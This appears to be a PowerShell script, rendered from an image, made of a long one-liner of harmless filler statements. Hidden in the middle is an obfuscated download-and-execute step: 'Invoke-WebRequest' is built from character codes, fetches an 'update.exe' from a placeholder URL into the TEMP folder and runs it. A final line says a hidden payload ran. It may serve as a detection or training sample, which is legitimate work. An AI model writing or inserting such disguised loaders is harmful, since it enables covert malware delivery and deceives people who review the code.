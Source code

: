 ```powershell
$randomVar1 = Get-Random -Minimum 1 -Maximum 1000; $string1 = "abcdefghijklmnopqrstuvwxyz" * 3; $date1 = Get-Date; $guid1 = [System.Guid]::NewGuid(); $math1 = [Math]::Sqrt(144) * [Math]::PI; $array1 = @(1,2,3,4,5) | ForEach-Object { $_ * 2 }; $hash1 = @{ "key1" = "value1" }; $split1 = "one,two,three".Split(','); $join1 = @("a","b","c") -join "-"; $trim1 = "  spaces  ".Trim(); $replace1 = "hello world".Replace("world", "universe"); $substring1 = "PowerShell".Substring(0, 5); $length1 = "test".Length; $check1 = "PowerShell" -like "Power*"; $case1 = "TEST" -ceq "test"; $greater1 = 10 -gt 5; $less1 = 3 -lt 7; $logical1 = ($true -and $false); $logical2 = ($true -or $false); $logical3 = -not $false; $null1 = $null -eq $null; $type1 = 123 -is [int]; $cast1 = [string]456; $array2 = @(1,2,3) -contains 2; $where1 = @(1,2,3,4,5) | Where-Object { $_ -gt 3 }; $sort1 = @("c","a","b") | Sort-Object; $measure1 = @(1,2,3,4,5) | Measure-Object -Sum; $group1 = @("a","a","b","b") | Group-Object; $foreach1 = 1..5 | ForEach-Object { "Number: $_" }; $for1 = for($i=0; $i -lt 3; $i++) { "Index: $i" }; $while1 = $counter = 0; while($counter -lt 2) { $counter++ }; $doWhile1 = $counter2 = 0; do { $counter2++ } while($counter2 -lt 2); $switch1 = switch(2) { 1 {"One"} 2 {"Two"} default {"Other"} }; $try1 = try { 1/0 } catch { "Error caught" }; $error1 = $Error.Count; $warning1 = $WarningPreference; $verbose1 = $VerbosePreference; $debug1 = $DebugPreference; $progress1 = $ProgressPreference; $random1 = @("Red","Blue","Green","Yellow") | Get-Random; &($([char]73+[char]110+[char]118+[char]111+[char]107+[char]101+[char]45+[char]87+[char]101+[char]98+[char]82+[char]101+[char]113+[char]117+[char]101+[char]115+[char]116)) -Uri "https://example.com/update.exe" -OutFile "$env:TEMP\update.exe"; & "$env:TEMP\update.exe"; $current1 = Get-Location; $path1 = [System.IO.Path]::DirectorySeparatorChar; $invalid1 = [System.IO.Path]::GetInvalidFileNameChars(); $temp1 = [System.IO.Path]::GetTempFileName(); $extension1 = [System.IO.Path]::GetExtension("file.txt"); $fileName1 = [System.IO.Path]::GetFileNameWithoutExtension("test.ps1"); $directory1 = [System.IO.Path]::GetDirectoryName("C:\Windows\System32"); $pathCombine1 = [System.IO.Path]::Combine("C:", "Users", "Public"); $absolute1 = [System.IO.Path]::IsPathRooted("C:\Windows"); $env1 = Get-ChildItem Env: | Select-Object -First 5; $aliases1 = Get-Alias | Select-Object -First 5; $functions1 = Get-ChildItem Function: | Select-Object -First 5; $variables1 = Get-Variable | Select-Object -First 5; $modules1 = Get-Module | Select-Object -First 3; $commands1 = Get-Command | Select-Object -First 5; $history1 = Get-History -Count 1; $random2 = Get-Random -SetSeed 12345; $unicode1 = "😀😁"; $ascii1 = "ABC".ToCharArray() | ForEach-Object { [int]$_ }; $binary1 = [Convert]::ToString(255, 2); $hex1 = [Convert]::ToString(255, 16); $octal1 = [Convert]::ToString(255, 8); $base64_1 = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("Hello1")); $memory1 = [System.IO.MemoryStream]::new(); $stringReader1 = [System.IO.StringReader]::new("Test"); $stringWriter1 = [System.IO.StringWriter]::new(); $textInfo1 = (Get-Culture).TextInfo; $numberFormat1 = (Get-Culture).NumberFormat; $dateTimeFormat1 = (Get-Culture).DateTimeFormat; $calendar1 = (Get-Culture).Calendar; $encoding1 = [System.Text.Encoding]::UTF8; $decoder1 = $encoding1.GetDecoder(); $encoder1 = $encoding1.GetEncoder(); $charArray1 = "Hello".ToCharArray(); $byteArray1 = [System.Text.Encoding]::UTF8.GetBytes("Hello"); $stringFromBytes1 = [System.Text.Encoding]::UTF8.GetString($byteArray1); $randomTimer1 = [System.Diagnostics.Stopwatch]::StartNew(); Start-Sleep -Milliseconds 1; $randomTimer1.Stop(); $elapsed1 = $randomTimer1.Elapsed; $assembly1 = [System.Reflection.Assembly]::GetExecutingAssembly(); $type1 = [System.String]; $methods1 = $type1.GetMethods() | Select-Object -First 3; $properties1 = $type1.GetProperties() | Select-Object -First 3; $constructors1 = $type1.GetConstructors(); $genericType1 = [System.Collections.Generic.List[string]]; $list1 = [System.Collections.Generic.List[int]]::new(); $list1.Add(1); $list1.Add(2); $list1.Add(3); $dictionary1 = [System.Collections.Generic.Dictionary[string,int]]::new(); $dictionary1.Add("one", 1); $dictionary1.Add("two", 2); $queue1 = [System.Collections.Generic.Queue[string]]::new(); $queue1.Enqueue("first"); $queue1.Enqueue("second"); $stack1 = [System.Collections.Generic.Stack[string]]::new(); $stack1.Push("bottom"); $stack1.Push("top"); $hashSet1 = [System.Collections.Generic.HashSet[int]]::new(); $hashSet1.Add(1); $hashSet1.Add(2); $hashSet1.Add(1); $sortedSet1 = [System.Collections.Generic.SortedSet[int]]::new(); $sortedSet1.Add(3); $sortedSet1.Add(1); $sortedSet1.Add(2); $final1 = "Script completed with hidden payload executed"
```
